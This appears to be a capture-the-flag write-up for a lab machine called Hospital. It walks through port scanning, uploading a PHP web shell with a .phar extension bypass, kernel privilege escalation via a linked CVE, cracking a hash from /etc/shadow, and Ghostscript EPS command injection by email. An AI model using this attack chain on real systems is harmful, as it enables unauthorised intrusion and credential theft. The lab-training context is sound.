 we start the port enumeration with nmap:
```bash
nmap -sC -sV -p- -Pn --min-rate=2000 10.10.11.241

PORT     STATE SERVICE           VERSION
22/tcp   open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-11-21 15:55:53Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
1801/tcp open  msmq?
2103/tcp open  msrpc             Microsoft Windows RPC
2105/tcp open  msrpc             Microsoft Windows RPC
2107/tcp open  msrpc             Microsoft Windows RPC
2179/tcp open  vmrdp?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3269/tcp open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.hospital.htb
| Not valid before: 2023-09-05T18:39:34
|_Not valid after:  2024-03-06T18:39:34
| rdp-ntlm-info: 
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2023-11-21T15:56:49+00:00
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6170/tcp open  msrpc             Microsoft Windows RPC
6404/tcp open  msrpc             Microsoft Windows RPC
6406/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6407/tcp open  msrpc             Microsoft Windows RPC
6409/tcp open  msrpc             Microsoft Windows RPC
6613/tcp open  msrpc             Microsoft Windows RPC
8080/tcp open  http              Apache httpd 2.4.55 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.55 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Login
|_Requested resource was login.php
9389/tcp open  mc-nmf            .NET Message Framing
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-11-21T15:56:52
|_  start_date: N/A
```
The output above tell us some interesting things:

1) Several domain names: _HOSPITAL_, _hospital.htb_ and _DC.hospital.htb_ to add at _/etc/hosts_

2) Interesting services: _SMB (139, ...)_, _LDAP (3268, ...)_, _HTTPS (443)_ e _HTTP (8080)_

The only way to do something is the _HTTP_ because _SMB_ and _LDAP_ doesn't allow the null connection meanwhile the _HTTPS_ it'seems untochable<br>
we're able to continue with the following URL _http://hospital.htb:8080/_, we don't have any credentials but below the login form there is a blue button called _Make One_, we click on it and a very beautiful thing appear:

![Upload website](./pics/uploadweb.png)

we open _Burpsuite_ and try to upload a revshell, We can use this [one](https://github.com/flozz/p0wny-shell) more specific it's called _shell.php_

Output:
![Burpresponse](./pics/burpshell.png) 

It seems there is a check for the extensions file, we can try some fuzzing in the _filename_ field by adding some several extensions, we can try some from the [Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload) more specific theese one _.php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module_.<br>

First to bypass the upload check we must know where the file could be uploaded, it's time to use gobuster:
```bash
gobuster dir -u http://hospital.htb:8080/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,txt,html,old,docx 
/uploads              (Status: 301) [Size: 321] [--> http://hospital.htb:8080/uploads/]
/upload.php           (Status: 200) [Size: 0]
```
Perfect, we find where we want to search and after some tries we can notice that the only working extension is _.phar_ so:

![firstrev](./pics/firstshell.png)

Beware that there is a cronjob who it removes our revshell to resolve this problem is enough to relaunch another revshell<br>

We can search inside the filesystem and try some enumerations to retrieve some informations:

1) _/etc/passwd_ reveals another user called _"drwilliams"_

2) _config.php_ has some credentials for the mariadb but there isn't anything of our interest

3) _uname -a_ tells us the ubuntu's version _Linux webserver 5.19.0-35-generic #36-Ubuntu_ and it seems affected by this [CVE](https://github.com/briskets/CVE-2021-3493)

The most secure the way to obtain the root is _exploit.c_ from th CVE's link:
```bash
nano poc.c (INSERT THE CODE FROM THE CVE)
gcc -c poc.c -o poc 
./poc
```
we're root and we can navigate to _drwilliams_ folder but it's empty; as root from /etc/shadow we can read drwilliams' hash and crack it:
```bash
cat /etc/shadow

drwilliams:<REDACTED>:::

nano hash
john hash -w=/usr/share/wordlists/rockyou.txt
```
sbam we obtain the password; so use this credentials inside the previous revshell is useless beause we're already root and there isn't<br> nothing to see, a second way is used CrackMapExec to check if this credentials are used inside the windows target and furthermore a<br> rid-brute to retrieve all users:

![Crackmapexec output](./pics/cme.png) 

okay we retieve another user called _drbrown_ and the credentials are valid but we can't logon with the typical access (_SSH, WinRM..._)<br> but if we rembember it was a _HTTPS_ webserver with a form login therefore we can try to access with drwilliams' credentials

![email portal](./pics/mail.png) 

Inside we can see that there is an email from _drbrown_ called _Needle designs for Darius Simion_

![brown email](./pics/mailbrown.png)

Two interesting words _.eps_ and _Ghostscript_ by a simple search like _revshell .eps ghostscript poc_ at the first [link](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection):

![poc ghostscript](./pics/ghostscript.png)

we go to compose, fill the various fields attach the _file.eps_ open a listener and we gain access to the target machine and retrieve the user flag.<br>

After some time to search inside the filesystem we can see _xampp_ folder by this command:

```powershell
icalcs .\xampp
```

we have the right permission on it and the owner's folder is _SYSTEM_, so by adding a revshell and navigate to it, we can retrieve the root.flag.